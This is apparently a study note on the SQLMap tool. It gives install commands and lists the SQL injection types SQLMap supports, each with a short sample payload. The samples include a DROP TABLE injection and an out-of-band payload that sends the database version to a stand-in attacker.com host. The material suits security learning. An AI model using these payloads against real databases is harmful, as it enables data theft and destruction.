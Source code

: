 # SQLMap Overview
--------

- SQLMap is a common tool that is used for automating the process of detecting and exploiting SQL Injection vulnerabilities.

- Installation
```bash
sudo apt install sqlmap
```

- Confirm the installation
```bash
python sqlmap.py
```

## Supported Databases
SQLMap has the largest support for DBMSes of any other SQL exploitation tool. SQLMap fully supports the following DBMSes:

![sqlmap-supported-db](https://raw.githubusercontent.com/hhphu/images/main/HTB/SQLMap/sqlmap-supported-db.png)

## Supported SQL Injection Types
- SQLMap supports the following types of SQL Injection:
	- B: Boolean-based blind `AND 1=1`
	- E: Error-based `AND GTID_SUBSET(@@version,0)`
	- U: Union query-based `UNION ALL SELECT 1, @@version,3`
	- S: Stacked queries `;DROP TABLE users`
	- T: Time-based blind `AND 1=IF(2>1,SLEEP(5),0)`
	- Q: Inline queries `SELECT (SELECT @@version) from`
	- Out-of-band SQL Injection `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\README.txt'))`
		